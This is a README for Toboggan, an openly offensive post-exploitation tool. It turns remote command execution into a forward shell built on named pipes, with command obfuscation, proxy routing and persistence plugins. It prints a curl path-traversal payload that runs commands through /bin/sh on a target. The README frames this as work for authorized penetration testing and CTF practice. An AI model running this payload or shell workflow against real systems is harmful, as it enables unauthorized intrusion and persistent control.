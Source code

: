 # Toboggan

🛝 Slide into post-exploitation from RCE with ease. Toboggan wraps your remote command execution into a upgradable dumb shell, sliding directly into post-exploitation phase. It allows you to fastly launch a `mkfifo` forward-shell inside a targeted Linux environment.

<p align="center">
    <img width="350" src="/media/toboggan-coin-nobg.png" alt="Toboggan Logo">
</p>

## Installation

Installing Toboggan is simple. You can install it directly from the repository:

```shell
pip install 'toboggan@git+https://github.com/n3rada/toboggan.git'
```

### Using [`pipx`](https://pypa.github.io/pipx/)

Be careful, it installs Python applications in isolated virtual environments, which means they do not have access to system-wide packages by default (like `psycopg2`).
```shell
pipx install 'git+https://github.com/n3rada/toboggan.git'
```

If you want-it to use system site packages, pass `--system-site-packages` when installing via `pipx`:
```shell
pipx install --system-site-packages 'git+https://github.com/n3rada/toboggan.git'
```

## 🔍 What is an RCE Python Module?

A Remote Code Execution (RCE) module is a Python script that defines how commands are sent to and executed on a remote system. Toboggan uses this module to wrap and streamline post-exploitation command execution.

To be compatible with Toboggan, your module must define a function with the following exact signature:

```python
def execute(command: str, timeout: float) -> str:
    """
    Execute a command remotely and return the output.
    
    Args:
        command (str): The command to execute.
        timeout (float): Execution timeout.

    Returns:
        str: The command output.
    """
```

This function will be called internally by Toboggan to execute commands remotely. It uses [`modwrap`](https://pypi.org/project/modwrap/) under the hood.

### Considerations

Your `execute()` function must handle all quirks of the target system.

- If space characters need to be replaced (e.g., with `${IFS}`), handle that inside the function.
- If special encoding is required (e.g., `base64`, `hex`), apply it before sending.
- If the system echoes extra characters or wraps the output, sanitize it.
- If the remote interface is slow or unreliable, tune the timeout.

The goal is for Toboggan to call your `execute()` function with any arbitrary command and get the correct output, as if you typed it in a shell.

## Execution

Once installed, you can execute it using:
```shell
toboggan -m ~/phpexploit.py
```

When you are knowing what you are doing, you can also do:
```shell
toboggan -m ~/phpexploit.py --camouflage --fifo --os "linux"
```

It will start a FiFo named-pipe (a.k.a `mkfifo` shell, forward-shell) on `linux` (`--os`) remote system and obfuscating all commands (`--camouflage`) using the [hide.py](./toboggan/actions/hide/unix.py) actions.


### Wrap a shell command

If you are really lazy, you can directly wrap a shell command:
```shell
toboggan --exec-wrapper 'curl -s --path-as-is -d "echo Content-Type: text/plain; echo; ||cmd||" "http://192.168.216.188/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"'
```

### Proxy

You can forward to your favorite proxifier such as [`Squid`](https://www.squid-cache.org/) server using the `--proxy` parameter:

```shell
toboggan -m ~/phpexploit.py --proxy http://squideu.<something>.io:3128
```

### BurpSuite

To route traffic through Burp Suite:
```shell
toboggan -m ~/phpexploit.py --proxy
```

You can also directly import a Burp saved request that contains the `||cmd||` placeholder:
```shell
toboggan -r brequest
```

## 🏗️ Making Dumb Shells Smarter

### Named Pipes for Semi-Interactive Shells

Toboggan uses named pipes (FIFO - First In, First Out) for inter-process communication (IPC). Named pipes are particularly useful when working with RCE over limited channels like HTTP requests or restricted command execution interfaces. It uses a `mkfifo` command under the hood. Also known as forward-shell style.

This allows Toboggan to simulate pseudo-TTY behavior, even in restricted environments behind firewalls. To enable named pipe mode, use the `--fifo` flag:
```shell
toboggan -m ~/phpexploit.py --fifo
```

Toboggan will create a FIFO-based communication channel, allowing you to interact with the remote system in a more dynamic way (e.g., using `sudo -l`).

## 🛠️ Bring Your Own Actions (BYOA)

Actions in Toboggan are modular plugins that allow you to extend its functionality. Actions can automate common post-exploitation tasks, such as downloading files, executing scripts, or setting up persistent access. Custom actions should be placed in `~/.local/share/toboggan/actions` (Linux) or `%APPDATA%\toboggan\actions` (Windows).

## ⚠️ Disclaimer

Toboggan is intended for use in legal penetration testing, Capture The Flag (CTF) competitions, or other authorized and ethical security assessments.

It is specifically crafted to be used in controlled environments, such as:
- Penetration testing labs (e.g., HackTheBox, OffSec exam scenarios).
- Personal lab setups designed for ethical hacking and security research.
- Penetration Testing or Red Team engagements with customer consent.

Misuse of this project may result in legal action. Please use this tool responsibly and in compliance with applicable laws and regulations.

